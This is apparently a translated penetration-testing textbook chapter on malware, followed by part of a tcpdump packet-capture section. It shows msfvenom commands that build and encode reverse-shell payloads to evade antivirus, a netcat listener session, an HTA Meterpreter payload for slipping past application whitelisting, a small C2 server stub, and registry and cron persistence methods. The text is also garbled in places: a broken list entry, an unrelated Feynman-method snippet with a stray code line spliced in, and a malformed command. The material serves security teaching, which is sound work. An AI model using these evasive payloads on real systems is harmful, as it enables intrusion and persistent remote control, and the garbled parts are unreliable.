- 22 `payload/windows/patchupdllinject/reverse_tcp_rc4_dns` 正常 否 Windows 注入 DLL，反向 TCP 载荷（RC4 加密 DNS，Metasm）
- 23 `payload/windows/patchupdllinject/reverse_tcp_rc4` 正常 否 Windows 注入 DLL，反向 TCP 载荷（RC4 加密，Metasm）
- 24 `payload/windows/patchupdllinject/reverse_tcp_uuid` 正常 否 Windows 注入 DLL，反向 TCP 载荷（带 UUID 支持）
- 25 `payload/windows/peinject/reverse_tcp_allports` 正常 否 Windows 注入 PE 文件，反向所有端口 TCP 载荷
- 26 `payload/windows/peinject/reverse_tcp` 正常 否 Windows 注入 PE 文件，反向 TCP 载荷
- 27 `payload/windows/peinject/reverse_tcp_dns` 正常 否 Windows 注入 PE 文件，反向 TCP 载荷（DNS）
- 28 `payload/windows/peinject/reverse_tcp_rc4_dns` 正常 否 Windows 注入 PE 文件，反向 TCP 载荷（RC4 加密 DNS，Metasm）
- 29 `payload/windows/peinject/reverse_tcp_rc4` 正常 否 Windows 注入 PE 文件，反向 TCP 载荷（RC4 加密，Metasm）
- 30 `payload/windows/peinject/reverse_tcp_uuid` 正常 否 Windows 注入 PE 文件，反向 TCP 载荷（带 UUID 支持）
- 31 `payload/windows/powershouse<unk>...?`

当我们创建可执行文件时，我们需要使用 `msfvenom`。它会将一个用 Ruby 编写的负载脚本编译成我们指定的输出文件。下面的列表展示了使用 `msfvenom` 创建 ELF（Executable and Linkable Format）文件的示例。ELF 是 Linux 系统的可执行格式，类似于 Windows 的便携可执行文件（PE）格式。命令行表明我们正在为 x86（32 位）系统生成可执行文件，运行在 Linux 上。负载是通过 TCP 连接的反向 shell，端口为 4444。目标系统位于 127.0.0.1，因为它仅用于连接本地 `netcat` 监听器。输出文件被称为 `payload`，但也可以叫其他任何名字，这便是我们得到的可执行文件名称。输出末尾可以看到该文件是 32 位的 ELF 可执行文件。要在 Linux 系统上运行它，需要设置可执行位。

**使用 `msfvenom`**

```
  kilroy:~$ msfvenom -a x86 -p linux/x86/shell_reverse_tcp lhost=127.0.0.1lport=4444 -f elf --platform=linux -o payload
 No encoder or badchars specified, outputting raw payload
 Payload size: 68 bytes
 Final size of elf file: 152 bytes
 Saved as: payload
  kilroy:~$ chmod +x payload
  kilroy:~$ ./payload
  kilroy:~$ file payload
  payload: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, no section header
```

在运行已编译好的 `payload` 之前，我们需要启动 `netcat` 监听器。下面的代码列表展示了启动 `netcat` 监听指定端口的样子。你会发现 `netcat` 没有任何指示说明它正在监听或已接收连接。因为我同时坐在两端，我知道连接已经建立，于是可以向运行的 `payload` 程序发送命令。使用类似 Meterpreter shell 和监听器的工具有一个优势：当建立连接时，你可以看到并立即向 `payload` 发送命令。

**`netcat` 连接**

```
  kilroy:~$  nc -lp 4444
  ls
  Desktop
  Documents
  Downloads
  Empire
  Music
  Pictures
  Public
  Templates
  Videos
  client
  client.c
  dotfiles.tar.gz
  fontconfig
  go
  mail
  payload
  prltools
  request.ps1
  sps18-129
  src
  teamviewer_amd64.deb
 
```

你可能会遇到入侵检测系统或防病毒软件捕获你的恶意软件。为了规避，Metasploit 可以对生成的程序进行编码。编码会隐藏实际 `payload`，使其在程序检测恶意软件时不易被识别。只需在 `msfvenom` 命令行参数中加入常用编码即可。下面的列表展示了添加常见编码的示例。

**编码 payload**

```
  kilroy:~$  msfvenom -a x86 -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=4444 -f elf --platform=linux -e x86/shikata_ga_nai -i 5 -o payload
 Found 1 compatible encoders
 Attempting to encode payload with 5 iterations of x86/shikata_ga_nai
 x86/shikata_ga_nai succeeded with size 95 (iteration=0)
 x86/shikata_ga_nai succeeded with size 122 (iteration=1)
 x86/shikata_ga_nai succeeded with size 149 (iteration=2)
 x86/shikata_ga_nai succeeded with size 176 (iteration=3)
 x86/shikata_ga_nai succeeded with size 203 (iteration=4)
 x86/shikata_ga_nai chosen with final size 203
 Payload size: 203 bytes
 Final size of elf file: 287 bytes
 Saved as: payload
```

你可以指定想要使用的编码迭代次数，没有特定的最佳次数。迭代次数越多，`payload` 在可执行文件中的实际内容就越被隐藏。一次编码已经能够隐藏 `payload`，但如果有人熟悉经过一次或两次编码的 `payload` 样子，仍有被捕获的风险。目标是不被捕获并成功运行 `payload`。

### Obfuscating

规避恶意软件检测有多种方式，这是至关重要的，因为防病毒解决方案在不断改进检测常见做法的能力。除了加密和打包外，你还可以将恶意软件转换为其他可执行文件类型。其中一种是 PowerShell。你可以轻松生成经 obfuscate 的 PowerShell，它具备传统恶意软件相似的大量功能。此外，你还可以使用其他应用程序类型，这些类型不仅能帮助绕过防病毒程序，还能简化感染过程。

在 Windows 系统上，可以使用一种称为 HTML 应用程序（HTA）的技术。这些是单文件，内部包含完整的可执行文件，利用 HTML 进行任何显示需求，并配合脚本语言（如 JavaScript）。你也可能会看到动态 HTML 的使用。通过 HTA，你可以通过网站进行交付，避免发送可能被阻止的电子邮件附件。你可以在 HTA 的脚本部分中包含任何恶意代码，甚至可以对其进行编码。使用 Metasploit 创建这类应用也很容易，正如我们之前创建简单恶意软件时所做的那样。下面展示了使用 `msfvenom` 创建包含反向 TCP Meterpreter shell 的 HTA 的示例：

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.2.15 lport=443 -e x86/shikata_ga_nai -f hta-psh -o evil.hta
```

最终目标始终是将恶意软件安装到目标系统上。你会在系统上 encounter 众多防护措施，以阻止恶意软件通过。由于 Windows 使用受信任的 `mshta.exe` 来运行 HTML 应用程序，你可能会绕过应用程序白名单，该白名单通过阻止所有未明确允许的可执行文件来保护系统。应用程序白名单虽然非常有效，但管理起来也很困难，或者说被认为难以管理。它需要一个高度结构化的环境，所有应用程序始终被知晓。

### Malware Infrastructure

你可能已经注意到，当我们把程序放到目标系统时，通信流的另一端也存在，这使得我们能够继续访问该系统。如果我们只想造成恶意行为，则不重要。我们的目标是在此次感染后继续保持对系统的访问。通常，复杂的恶意软件会有基础设施。我们设置了一个服务器，客户端软件会连接到该服务器以发出命令。这只是野外常见情形的简化版本。你可能已经看到过关于 Mirai 或 Kelihos botnet 被取下的新闻报道。Botnet 拥有命令与控制（C2）基础设施，允许攻击者向 bot 发送命令，这些 bot 是 botnet 中的端点。图 8.21（Figure 8.21）展示了 botnet 的逻辑结构。


**FIGURE 8.21** Command‑and‑control infrastructure

这是一个本质上是单层的 C&C 网络。大型僵尸网络（botnet）通常需要多层服务器来控制数百万设备。这可能意味着一个位于顶层的设备，用于管理若干其他设备。这些设备中的每一个可能会管理若干下层设备。攻击者通过与顶层设备进行交互，向终端发送命令，指示其执行什么操作。这可能包括搭建一个网络基础设施用于出售药品，例如。它也可能是发送大量商业电子邮件（UCE，口语中称为垃圾邮件），或发起分布式拒绝服务攻击（DDoS）。

用于管理此类基础设施的协议有几种。有时你会看到 Internet Relay Chat（IRC）协议被用来向终端发送命令。这通常是通过在已识别的 IRC 频道中发布一个动作来实现的。终端会连接到 IRC 服务器并检查频道中的命令。另一种做法是创建一个基于 Web 的基础设施，使终端连接到已识别的 Web 服务器，以获取包含终端应执行的命令的页面。这并不意味着你必须部署 Apache、Nginx 或 IIS 服务器仅仅为了提供页面。有很多技术可以让这变得更加容易。

Node.js 是一种快速搭建 Web 服务器的方法，其中的操作使用 JavaScript 编写。Node.js 拥有大量库，可进一步简化此过程。框架和库会处理所有底层协议交换，你只需编写一些高层代码即可。你可以在 Node.js 中实现 RESTful 服务。REST（Representational State Transfer）是一种管理应用程序状态的方式，弥补了 HTTP 本身不支持的功能。REST 服务使用“端点”来向服务器发送消息并接收响应。端点本质上是一个 URL，指示服务器调用的函数或函数集合。


在 Node.js 上，你可以使用 Express 库来管理所有的应用通信。你只需编写响应端点调用的代码。这可以通过几行代码完成。当然，运行代码需要你安装 Node.js 以及所需的库。下面的代码片段展示了一个基本的 Node.js 程序，用于处理 `/check` 端点的请求。添加端点只需添加对应的函数即可。

### Node.js 程序用于 RESTful 服务

```
var express = require('express');
var app = express();
var fs = require('fs');
  
app.get('/check', function(req, res) {
  
})
  
var server = app.listen(8081, function() {
    var host = server.address().address
    var port = server.address().port
    console.log("Server is listening at %s on %s", host, port)
})
```

这里展示的是一个不执行任何操作的端点。你可以发送请求，但什么也不会发生。要让其产生作用，需要在处理 GET 请求 `/check` 的函数中添加代码。Express 库同样可以处理 POST 请求。要处理 POST，只需使用 `app.post` 替代 `app.get`。你可以返回 JavaScript Object Notation（JSON），它由键（property）和值组成，这对自文档化非常有帮助，因为键值对本身就能提供足够的信息。通过修改 `app.get` 函数，你可以发送 JSON 响应。

### 使用 Express 发送响应

```
app.get('/check', function(req, res) {
    res.json({ action: 'email' })
})
```

当然，如果你需要 C&C 服务，也不一定非要使用 Node.js 来构建基础设施。它是一种快速搭建带有应用功能的 Web 服务器的简便方式，但你也可以编写页面并将其部署到已有的 Web 服务器或自行安装的服务器上。

攻击者常用的软件之一是 Cobalt Strike 的 BEACON。Cobalt Strike 是专业红队人员常用的框架。它作为 C2 服务器运行，因为它是一个所有团队成员都使用的应用，用于执行红队操作。Cobalt Strike 的默认负载是 BEACON。该负载会回连到 Cobalt Strike 团队服务器，使红队成员能够与受控系统进行通信。BEACON 是一段被盗用的软件，攻击者经常非法使用。获取 Cobalt Strike 的副本将让你拥有自己的受控系统控制基础设施。它并不便宜，但可能为你提供一个框架来管理受控系统。

## Antivirus Solutions

Antivirus 将会是任何编写恶意软件的人的噩梦。幸运的是，如果恶意软件作者愿意付出一点努力，完全可以规避 antivirus。请记住，抗病毒软件通常依赖已知的恶意软件特征来识别它，这可能是恶意软件的哈希值。要生成不同的哈希，恶意软件只需修改单个字节即可。这个单字节的改变会导致完全不同的哈希。恶意软件可以使用多种技术绕过抗病毒。首先，任何新的恶意软件在被分析并其特征加入抗病毒数据库之前，都不会被识别。

有时恶意软件会呈现出多形性（polymorphic），这意味着它拥有多种形态。程序在传播过程中会不断重写自身，进行细微修改，使得每一份拷贝看起来都不同。这要求恶意软件作者具备一定技能，知道如何在不导致二进制文件无法运行的情况下，对拷贝进行修改。

恶意软件可以使用打包（packer）和加密（encryptor）来使抗病毒难以检测。使用不同的打包方案，例如更强或更弱的压缩，会导致文件看起来不同，因为数据区会呈现不同的样子。加密可以使用不同的密钥，文件也会呈现不同的外观。

即使是当前的抗病毒或端点检测正在观察行为，被丢弃的文件也可能拥有随机生成的名称。这同样适用于注册表键和值。将文件和注册表值作为操作进行写入并不困难，因此这些防护方案无法单纯依据这些操作进行阻断，否则会产生过多的误报。它们需要更具体的细节来进行检测。这也是为何配备抗病毒方案的系统仍可能受到恶意软件感染的原因。

当今企业环境中常见的软件是端点检测与响应（EDR）。许多 EDR 软件具备检测恶意软件的能力。它可能通过观察可执行文件的运行方式来实现。恶意软件会使用一些执行模式，例如读取和写入特定的注册表键，或在常见目录中工作。这些是非恶意软件通常不使用的技术。此类检测能力可以增强传统的恶意软件检测手段。

## Persistence

Malware 是一个并非一次性完成的任务，大部分情况下尤其如此。这尤其适用于恶意软件的目的是为攻击者提供远程访问。攻击者希望恶意软件在登录/退出和重启后继续运行。攻击者可以使用多种技术确保软件始终运行。从启动过程开始，恶意软件可能在操作系统甚至尚未启动前就将自己安装并运行。这使其能够控制启动过程，并在任何防护措施生效前将其加载到内存中。启动前的恶意软件并不常见，但它是最危险的之一，因为它在任何反恶意软件程序启动前就已经运行，从而更难以被检测。

在 Windows 系统中，攻击者可能会使用 Windows 注册表添加键值，使软件在系统启动时自动启动。常用的注册表键有两个。第一个是 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`，它会在系统启动时启动软件。另一个是 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`，该键用于在用户登录时启动程序。该注册表键属于特定用户，因此恶意软件只会在该用户登录时启动，这限制了恶意软件仅限于该用户的权限。首选键是 `HKEY_LOCAL_MACHINE` 下的键，因为它会以机器级权限运行；但有时攻击者只有用户级权限。

另一种技术是计划任务（scheduled tasks）。这种持久化机制在类 Unix 操作系统以及 Windows 系统上都适用。在类 Unix 系统中，`cron` 是用于计划任务的常用设施。可能有不同的实现，但最终都是 `cron`。在 Windows 系统中，有 `at` 程序，它的工作方式类似于类 Unix 系统的计划任务。你可以设置程序在指定时间运行。在类 Unix 系统中，可能还有按小时、按天或按周运行的任务。

还有其他用于持久化的技术。MITRE ATT&CK 框架列出了所有已知的持久化机制，包括操作系统特定的技术（如 Windows Management Instrumentation（WMI）事件订阅）以及跨平台的技术（如启动脚本）。这些技术通常可以被检测，因此攻击者始终在寻找新的持久化技术。

## Summary

Malware 是信息技术行业的严重问题，影响企业和个人。恶意软件作者通常占据上风。如果他们想保持领先，可以始终在防病毒程序之前将恶意软件植入系统。他们通常利用新恶意软件获得优势，并且可以不断修改恶意软件，使其更难被检测。

这就是恶意软件分析的作用所在。有两种分析方式。第一种是静态分析，它通过查看恶意软件的属性及其实际代码来进行。你可以查看文件的组成，包括 PE 文件中节段的数量和大小。静态分析还可以判断是否为打包可执行文件。一种方法是查看入口点。入口点在编译时确定，基于提供给程序的地址空间。该地址可以被标记，而不仅仅是一个地址。如果你看到入口点名为类似 `UPX` 的名称，你就会知道它已被打包，因为 `UPX` 是常见的打包工具。反汇编器有助于查看代码以及可执行文件的某些属性。

另一种分析方式是动态分析，即运行程序并观察恶意软件的行为。这必须小心进行，因为你不想感染自己的机器，也不想将网络中的其他系统暴露于潜在感染风险。在虚拟机中运行恶意软件可以帮助此目的，尽管某些恶意软件会识别它是否运行在虚拟机中并不会完全展开。你可以使用沙箱环境运行程序，也有沙箱会自动化分析。其中一个是 Cuckoo Sandbox，它可以安装在自己的硬件上，或在公开的在线安装中使用。使用调试器可以帮助进行动态检查，因为你可以控制程序的运行。

在你对目标组织进行测试时，你可能想使用恶意软件。由于你行为守法，你不想使用真正具有恶意目的的恶意软件。你可能想安装后门或测试操作员是否能够检测到恶意软件的存在。你可以通过编写自己的程序来实现，同时考虑目标平台、架构以及其他要求。Python 是流行的编程语言，但 Windows 系统可能没有像 macOS 或 Linux 那样预装 Python 解释器。Windows 系统通常预装有 PowerShell。使用像 C 这样的编译语言编写的程序通常更可靠，因为所有程序元素都可以在编译时完成，而不必依赖预先安装的库。

恶意软件通常会有相关的基础设施。你可能听说过僵尸网络（botnets）。僵尸网络是受感染系统的集合，拥有命令和控制（C2）系统，用于指示僵尸终端执行什么操作。即使没有完整的 C2 系统网络，也至少会有系统供受感染系统连接，以便攻击者进行远程控制。这是因为防火墙通常允许出站流量，而阻止入站流量。因此，最佳做法是从内部发起连接。内部发起连接时，需要一个服务器供内部系统连接。即使只有少数系统，这仍然是基础设施。

## Review Questions

你可以在附录中找到答案。

1. 在僵尸网络中，用于告诉单个僵尸执行什么操作的系统叫什么？

   1. `C2 servers`
   2. `IRC servers`
   3. `HTTP servers`
   4. `ISC2 servers`

2. 蠕虫和病毒的主要区别是什么？

   1. `A worm uses polymorphic code.`
   2. `A virus uses polymorphic code.`
   3. `A worm can self‑propagate.`
   4. `A virus can self‑propagate.`

3. 静态分析相对于动态分析的一个优势是什么？

   1. `Malware is guaranteed to deploy.`
   2. `Dynamic analysis is untrustworthy.`
   3. `Static analysis limits your exposure to infection.`
   4. `Static analysis can be run in virtual machines.`

4. 你会使用 VirusTotal 做什么？

   1. `Checking your system for viruses`
   2. `Endpoint protection`
   3. `As a repository of malware research`
   4. `Identifying malware against antivirus engines`

5. 便携式可执行文件（PE 文件）中通常会包含哪两个部分？

   1. `Text and binary`
   2. `Binary and data`
   3. `Addresses and operations`
   4. `Text and data`

6. 你可以使用什么来生成自己的恶意软件？

   1. `Empire`
   2. `Metasploit`
   3. `Rcconsole`
   4. `IDA Pro`

7. 恶意软件打包工具的作用是什么？

   1. `To obscure the actual program`
   2. `To ensure that the program is all binary`
   3. `To compile the program into a tight space`
   4. `To remove null characters`

8. 恶意软件程序的多态代码的主要目的是什么？

   1. `Efficiency of execution`
   2. `Propagation of the malware`
   3. `Antivirus evasion`
   4. `Faster compilation`

9. 写恶意软件时不使用 Python 的一个原因是什么？

   1. Python 解释器很慢。
   2. Python 解释器可能不可用。
   3. 库支持不足。
   4. Python 是一门难以学习的语言。

10. 你会使用蜂窝沙箱（Cuckoo Sandbox）做什么？

    1. 恶意软件的静态分析
    2. 恶意软件的开发
    3. 恶意软件的动态分析
    4. 恶意软件的手动分析

11. 如果你想要一个既能帮助对恶意软件进行静态分析，又能进行动态分析的工具，你会选择哪个？

    1. Cutter
    2. IDA
    3. PE Explorer
    4. MalAlyzer

12. 使用反汇编器的目的是什么？

    1. 将机码转换为助记符
    2. 将助记符转换为机码
    3. 将助记符翻译为操作
    4. 移除对汇编器的需求

13. 所谓“dropping”（投递）的恶意软件会做什么？

    1. 投递防病毒操作
    2. 投递针对恶意执行的 CPU 防护
    3. 投递可能包含更多恶意软件的文件
    4. 将恶意软件投递到回收站

14. 在使用 Metasploit 创建恶意软件时，使用编码（encoder）的原因是什么？

    1. 编译恶意软件
    2. 逃避防病毒
    3. 逃避用户检测
    4. 压缩恶意软件

15. 如果你看到下面这条命令在别人的历史记录中，你会认为发生了什么？

```
msfvenom -i 5 -p windows/x64/shell_reverse_tcp -o program
```

    1. 创建了一个“中毒药丸”。
    2. 生成了一个恶意程序。
    3. 对已有恶意软件进行了编码。
    4. 启动了 Metasploit。

16. 病毒（virus）和勒索软件（ransomware）之间的区别是什么？

    1. 勒索软件可能是病毒。
    2. 勒索软件包含比特币。
    3. 勒索软件仅在俄罗斯生成。
    4. 病毒仅在 Windows 系统上运行。

17. 为什么有人会使用木马（Trojan）？

    1. 它作为恶意软件基础设施。
    2. 它逃避防病毒。
    3. 它冒充其他东西。
    4. 它具有多态性。

18. 当你试图动态分析恶意软件时，以下工具哪个最有用？

    1. Cutter
    2. OllyDbg
    3. Metasploit
    4. AV‑TEST

19. 如果客户端‑服务器通信中，感染系统上的端点是哪一端？

    1. 客户端
    2. 卫星
    3. 服务器
    4. 主控站

20. 以下哪项是通信最好从已感染网络内部发起的原因？

    1. 防病毒
    2. 虚拟机
    3. 入侵检测
    4. 防火墙

21. 允许软件在系统重启后继续运行的战术叫什么？

    1. 隐藏
    2. 持久化
    3. 反汇编
    4. 打包

22. 你可以使用哪种工具来深入分析恶意软件？

    1. `Strings`
    2. 哈希
    3. Ghidra
    4. Metasploit

23. 组织可以采用哪种做法来防止勒索软件导致的数据丢失？

    1. 实施防病毒
    2. 实施终端检测与响应（EDR）
    3. 扫描指标（IOC）
    4. 实施良好的备份实践

24. 在勒索软件攻击后，你可以使用哪种软件来恢复？

    1. 解密工具（Decryptor）
    2. 加密工具（Encryptor）
    3. 防病毒软件
    4. 终端检测与响应（EDR）

25. 哪种持久化机制可能让恶意软件免受防病毒软件的检测？

    1. 计划任务
    2. WMI 事件订阅
    3. 预启动恶意软件
    4. `HKEY_LOCAL_MACHINE` 注册表键

## Sniffing

以前，嗅探（sniffing）是一项昂贵的任务。原因在于需要一种专用的网络接口才能捕获数据包。除此之外，还需要相应的软件。如果想要捕获数据包，就必须使用特殊的硬件和软件，而且很少有公司提供这些设备。随后，出现了面向消费者的网络接口，价格相对低廉，能够将所有数据包通过接口转发到操作系统。最终，出现了名为 Ethereal 的软件，使得捕获数据包变得免费。

如今，捕获数据包的方法有多种。最常用的免费软件是 Wireshark，它能够对数据包进行深入分析，提供统计和图表功能。由于大多数网络都是交换机（switched）网络，流量主要只发送给目标系统，直接嗅探并不那么有意义，只能看到发往或来自自身设备的流量。我们需要将网络上的其余流量导向我们掌控的系统，甚至可以采用针对性的方式，精准选择想要捕获的系统。

我们还需要处理加密流量。当前大多数网络流量默认使用传输层安全性（TLS）加密，这使得我们难以直接观察数据。不过，仍有一些绕过方法。

### Packet Capture

为什么数据包捕获很重要？如果你能在网络的合适位置捕获数据，就有可能获取用户名、密码以及其他身份验证流量。攻击者可以窃取信用卡信息或其他可交易的个人可识别信息（PII）。根据组织类型，还可能涉及个人健康信息（PHI）或其他网络上的有价值数据。捕获数据包是获取这些信息的关键手段。

数据包捕获是指获取目标系统之外的网络流量。虽然可以只捕获发往自身系统的数据包，但这并不有趣，因为这些流量本来就会到达你的系统。网络接口卡（NIC）默认只转发目标 MAC 地址为自身 NIC 的 MAC 地址或广播地址（ff:ff:ff:ff:ff:ff）的帧。要让 NIC 转发所有帧，必须将其置于所谓的混杂模式（promiscuous mode），这样 NIC 就会把所有帧都转发给操作系统，表现得像在“乱逛”一样。


操作系统的网络栈在收到帧后，可以由一段软件进行拦截。一旦软件拥有帧，数据包捕获工具就会解析并提取每个协议头部的信息。像 `tcpdump` 这样的命令行程序会显示各个头部的内容；也可以使用图形用户界面（GUI），提供更丰富的显示选项，包括协议头和负载数据。

- [费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者 `理查德·费曼`。

1. 运用费曼技巧，你只需花上 `20 min` 就能深入理解知识点，而且记忆深刻，`难以遗忘`。

```
if (condVar > someVal) {console.log("xxx")}
```

我们不必只接受默认的详细程度。我们也可以要求对已捕获的数据包进行更详细的信息。`tcpdump` 支持多个详细程度级别。要获得更详细的信息，我们在命令行中添加 `-v` 参数。如果需要更详细的信息，则使用 `-vv`，再进一步使用 `-vvv`。下面的列表展示了使用 `-vv` 参数的 `tcpdump` 捕获示例。此外，还有一个参数用于将快照长度设置为 0。实际上，这将每个数据包的字节数设置为 262,144，这是默认设置。这并非总是如此。以前，快照长度非常短，因此要获得完整的数据包，需要告诉 `tcpdump` 不要限制捕获的字节数。

## `tcpdump` 捕获附加详细程度

```
root@quiche:~# tcpdump -vv -s 0
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
10:40:27.047708 IP (tos 0x0, ttl 1, id 48781, offset 0, flags [DF], proto UDP (17), length 228)
    samsung.lan.8001> st-routers.mcast.net.8001: [udp sum ok] UDP, length 200
10:40:27.048568 IP (tos 0x0, ttl 64, id 64646, offset 0, flags [DF], proto UDP (17), length 68)
    quiche.lan.45867> testwifi.here.domain: [bad udp cksum 0x2dcd -> 0x690e!] 26697+ PTR? 7.0.0.224.in-addr.arpa. (40)
10:40:27.068536 IP (tos 0x0, ttl 64, id 16931, offset 0, flags [DF], proto UDP (17), length 102)
    testwifi.here.domain> quiche.lan.45867: [udp sum ok] 26697 q: PTR? 7.0.0.224.in-addr.arpa. 1/0/0 7.0.0.224.in-addr.arpa. PTR st-routers.mcast.net. (74)
10:40:27.068803 IP (tos 0x0, ttl 64, id 64650, offset 0, flags [DF], proto UDP (17), length 72)
    quiche.lan.46802> testwifi.here.domain: [bad udp cksum 0x2dd1 -> 0x7eb6!] 42424+ PTR? 22.86.168.192.in-addr.arpa. (44)
10:40:27.070769 IP (tos 0x0, ttl 64, id 16932, offset 0, flags [DF], proto UDP (17), length 123)
    testwifi.here.domain> quiche.lan.46802: [udp sum ok] 42424* q: PTR? 22.86.168.192.in-addr.arpa. 1/0/0 22.86.168.192.in-addr.arpa. PTR samsung.lan. (95)
10:40:27.072770 IP (tos 0x0, ttl 64, id 64651, offset 0, flags [DF], proto UDP (17), length 71)
    quiche.lan.49820> testwifi.here.domain: [bad udp cksum 0x2dd0 -> 0x05f9!] 46654+ PTR? 1.86.168.192.in-addr.arpa. (43)
10:40:27.072857 IP (tos 0x0, ttl 64, id 16933, offset 0, flags [DF], proto UDP (17), length 123)
    testwifi.here.domain> quiche.lan.49820: [udp sum ok] 46654* q: PTR? 1.86.168.192.in-addr.arpa. 1/0/0 1.86.168.192.in-addr.arpa. PTR testwifi.here. (95)
10:40:27.072930 IP (tos 0x0, ttl 64, id 64652, offset 0, flags [DF], proto UDP (17), length 72)
    quiche.lan.55520> testwifi.here.domain: [bad udp cksum 0x2dd1 -> 0x3ef4!] 48745+ PTR? 57.86.168.192.in-addr.arpa. (44)
10:40:27.170687 STP 802.1d, Config, Flags [none], bridge-id 7000.2c:08:8c:1c:3b:db.8001, length 43
    message-age 0.00s, max-age 20.00s, hello-time 1.00s, forwarding-delay 4.00s
    root-id 7000.2c:08:8c:1c:3b:db, root-pathcost 0
```

默认的 `tcpdump` 设置会显示与数据包相关的 IP 头部信息，即有意义的字段被设置。添加详细程度后，你会看到层 4 头部的详细信息。查看任意 UDP 数据包，会发现会有注释说明校验和（`checksum`）是否正确，这意味着 `tcpdump` 已经对报文进行了校验和计算，并得到的结果与数据包中的值一致。对于 TCP 段而言，你会看到序列号、确认号以及设置的标志（`flags`）。

目前我们只看到协议头部。并没有看到任何负载（`payload`）数据。我们可以使用 `-X` 参数来查看负载。该参数会对报文的负载进行十六进制（`hex`）转储。十六进制转储会以十六进制形式显示每个字节，同时提供每个字节的 ASCII 解码。如果 ASCII 值是可打印字符，则右侧会显示该可打印字符。即使看到可打印字符，该字节在所用协议中的含义未必是该字符，可能只是该字节的数值。

## 数据包的十六进制表示

```
root@quiche:~# tcpdump -i eth0 -X
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
10:49:35.174771 STP 802.1d, Config, Flags [none], bridge-id 7000.2c:08:8c:1c:3b:db.8001, length 43
    0x0000:  0000 0000 0070 002c 088c 1c3b db00 0000  …..p.,…;….
    0x0010:  0070 002c 088c 1c3b db80 0100 0014 0001  .p.,…;……..
    0x0020:  0004 0000 0000 0000 0000 00              ………..
10:49:35.578186 IP samsung.lan.8001> st-routers.mcast.net.8001: UDP, length 200
    0x0000:  4500 00e4 c563 4000 0111 bcdf c0a8 5616  E….c@…….V.
    0x0010:  e000 0007 1f41 00d0 9a56 7b22 6461  …..A.A…V{"da
    0x0020:  7461 223a 7b22 7631 223a 7b22 7572 6922  ta":{"v1":{"uri"
    0x0030:  3a22 6874 7470 3a2f 2f31 3932 2e31 3638  :"http://192.16
    0x0040:  2e38 362e 3232 3a38 3030 312f 6d73 2f31  .86.22:8001/ms/1
    0x0050:  2e30 2f22 7d2c 2276 3222 3a7b 2275 7269  .0/"},"v2":{"uri
    0x0060:  223a 2268 7474 703a 2f2f 3139 322e 3136  :"http://192.16
    0x0070:  382e 3836 2e32 323a 3830 3031 2f61 7069  8.86.22:8001/api
    0x0080:  2f76 322f 227d 7d2c 2272 656d 6f74 6522  /v2/"}},"remote
    0x0090:  3a22 312e 3022 2c22 7369 6422 3a22 7575  :"1.0","sid":"uu
    0x00a0:  6964 3a32 6239 3562 6466 652d 6138 3033  id:id2b95bdfe-a803
    0x00b0:  2d34 3234 662d 3931 3530 2d34 3532 3434  -424f-915d-915244
    0x00c0:  6338 3162 3862 3022 2c22 7474 6c22 3a38  c81b8b0","ttl":8
    0x00d0:  3030 302c 2274 7970 6522 3a22 616c 6976  000,"type":"aliv
    0x00e0:  6522 7d0a                                e"}.
10:49:35.578979 IP quiche.lan.60408> testwifi.here.domain: 10006+ PTR? 7.0.0.224.in-addr.arpa. (40)
    0x0000:  4500 0044 163c 4000 4011 f6e1 c0a8 5639  E..D.<@.@…..V9
    0x0010:  c0a8 5601 ebf8 0035 0030 2dcd 2716 0100  ..V….5.0-.'…
    0x0020:  0001 0000 0000 0000 0137 0130 0130 0332  ………7.0.0.2
    0x0030:  3234 0769 6e2d 6164 6472 0461 7270 6100  24.in-addr.arpa.
    0x0040:  000c 0001                                ….
10:49:35.599038 IP testwifi.here.domain> quiche.lan.60408: 10006 1/0/0 PTR st-routers.mcast.net. (74)
    0x0000:  4500 0066 4230 4000 4011 cacb c0a8 5601  E..fB0@.@…..V.
    0x0010:  c0a8 5639 0035 ebf8 0052 c096 2716 8180  ..V9.5…R..'…
    0x0020:  0001 0001 0000 0000 0137 0130 0130 0332  ………7.0.0.2
    0x0030:  3234 0769 6e2d 6164 6472 0461 7270 6100  24.in-addr.arpa.
    0x0040:  000c 0001 c00c 000c 0001 0000 0bbc 0016  …………….
    0x0050:  0a73 742d 726f 7574 6572 7305 6d63 6173  .st-routers.mcas
    0x0060:  7403 6e65 7400                           t.net.
```

你也会在命令行中看到 `-i eth0`。这告诉 `tcpdump` 在哪个接口上捕获数据包。如果不指定，`tcpdump` 会使用默认接口。在大多数情况下，系统只有一个接口。有些系统有多个接口，不过。你可能想在非默认接口上捕获。这意味着你需要告诉 `tcpdump` 使用哪个接口。这里看不到任何层 4 头部信息，因为没有在启动 `tcpdump` 时加入 `-v` 参数，表示我们想要更详细的输出。你可以在启动 `tcpdump` 时添加详细程度参数。你将得到层 4 信息以及数据包的负载。

- 我们已经在命令行上查看了 `tcpdump` 的输出。我们不必在命令行上查看它，尤其是当它难以跟上时。在繁忙的网络上，你会看到消息飞速飞过，却无法及时跟上。最好是将数据包写入文件。我们可以使用 `-w` 参数在命令行上完成此操作，如下面的列表所示。这告诉 `tcpdump` 将数据包写入指定的文件。它以数据包捕获（PCAP）文件格式进行写入，其中包含捕获会话的元数据。你这里看到的内容之前是看不到的，因为你之前只看到了捕获的顶部。要停止捕获，需要使用 Ctrl+C（`^C`）终止 `tcpdump`。

## 使用 `tcpdump` 将数据包写入文件

```
root@quiche:~# tcpdump -w file.pcap

tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes

^C116 packets captured

119 packets received by filter

0 packets dropped by kernel
```

一旦文件写入完成，我们还有几种选择。任何能够解析 PCAP 文件的程序都可以打开我们已写入的文件。我们也可以使用 `tcpdump` 打开文件并显示其内容。为此，我们需要使用 `-r` 参数。该参数读取文件并可以提供额外的命令行参数来指定 `tcpdump` 如何显示输出。

## `tshark`

